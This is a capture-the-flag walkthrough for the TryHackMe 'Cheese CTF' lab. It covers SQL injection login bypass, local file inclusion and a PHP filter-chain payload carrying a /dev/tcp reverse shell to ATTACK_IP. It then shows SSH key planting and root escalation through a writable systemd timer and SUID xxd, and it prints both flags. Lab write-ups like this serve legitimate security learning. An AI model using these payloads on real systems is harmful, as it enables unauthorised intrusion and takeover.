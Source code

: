 ```yaml
---
title: 'TryHackMe: Cheese CTF'
author: Neo-Virex
date: 2025-02-13 08:00:00 +0000
categories: [TryHackMe, CTF, Walkthrough]
tags: [Cheese, CTF, HackTheBox, Linux, Exploit]
render_with_liquid: false
media_subpath: /images/tryhackme/tryhackme_cheese_ctf/
image:
  path: room_img.png
---
```


---
description: "A detailed walkthrough of the Cheese CTF challenge, covering reconnaissance, enumeration, exploitation, and privilege escalation."
---

**Challenge completed:** February 21, 2025 @ 13:20 (+03:00)

## Reconnaissance

All ports were open, but the most critical services were on ports **22** (SSH) and **81** (HTTP).

```bash
rustscan -a 10.10.26.46
```

```
Open 10.10.26.46:1 3 4 5 6 8 9 10 11 13 14 16 17 18 20 22 23 24 28 30 31 32 33 38 41 42 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 74 75 76 79 81 84
```

## Service Enumeration

Brute‑forcing directories with **feroxbuster** revealed key endpoints:

```bash
feroxbuster -u http://10.10.26.46/ -w /usr/share/wordlists/dirb/big.txt
```

```
200  /images/cheese1.jpg
200  /style.css
200  /images/cheese2.jpg
200  /images/cheese3.jpg
200  /login.php
```

## Web Application Analysis

![Login Page](img1.png){: width="600" height="150" .shadow }
![Directory Listing](img2.png){: width="600" height="150" .shadow }

The login form was vulnerable to **SQL injection**. Bypassing authentication with:

```sql
username: ' OR 1=1;-- -
password: anything
```

granted a shell on the web server.

## Exploit & Initial Access

Accessing `/secret-script.php?file=../../../etc/passwd` confirmed a Local File Inclusion (LFI):

```http
GET /secret-script.php?file=../../../etc/passwd HTTP/1.1
Host: 10.10.26.46
```

> Snippet from `/etc/passwd`:
>
> ```text
> root:x:0:0:root:/root:/bin/bash
> ```

daemon\:x:1:1\:daemon:/usr/sbin:/usr/sbin/nologin
...

> ```
> ```
![Directory Listing](img3.png){: width="600" height="150" .shadow }


## Privilege Escalation

A PHP filter chain exploit was generated via [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md) and the [php\_filter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator):

```bash
python3 php_filter_chain_generator.py \
  --chain '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/ATTACK_IP/8084 0>&1\'"); ?>' \
  | grep "php" > payload.txt
```

A listener was started:

```bash
nc -lvnp 8084
```

The payload was URL‑encoded and sent:

```bash
curl -o response.txt "http://10.10.26.46/secret-script.php?file=$(tail -n1 payload.txt)"
```

This yielded a `www-data` shell:

```bash
www-data@cheesectf:/var/www/html$ ls
adminpanel.css images index.html login.css login.php messages.html orders.html secret-script.php style.css supersecretadminpanel.html supersecretmessageforadmin users.html
```

## SSH Pivot & User Flag

The attacker’s public key was added to `/home/comte/.ssh/authorized_keys`:

```bash
echo "ssh-ed25519 AAAAC... neo@lab" >> /home/comte/.ssh/authorized_keys
```

SSH’ing as **comte**:

```bash
ssh -i ~/.ssh/id_ed25519 comte@10.10.177.192
cat user.txt  # THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}
```

## Lateral Movement & Final Escalation

`comte` had passwordless sudo rights on the `exploit.timer` systemd unit:

```bash
sudo systemctl daemon-reload
enable exploit.timer
start exploit.timer
```

`exploit.service` copies `/usr/bin/xxd` to `/opt/xxd` with SUID:

```ini
# /etc/systemd/system/exploit.service
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && chmod +sx /opt/xxd"
```

By editing the writable timer (`/etc/systemd/system/exploit.timer`) and reloading:

```ini
[Timer]
OnBootSec=5s
```

`xxd` was leveraged to write an SSH key into root’s `authorized_keys`:

```bash
echo 'ssh-ed25519 AAAA... kali@kali' | xxd | /opt/xxd -r - /root/.ssh/authorized_keys
```

SSH to **root** and capture root flag:

```bash
ssh -i ~/.ssh/id_ed25519 root@10.10.177.192
cat root.txt  # THM{dca75486094810807faf4b7b0a929b11e5e0167c}
```

---

### Flags

* **User:** `THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}`
* **Root:** `THM{dca75486094810807faf4b7b0a929b11e5e0167c}`

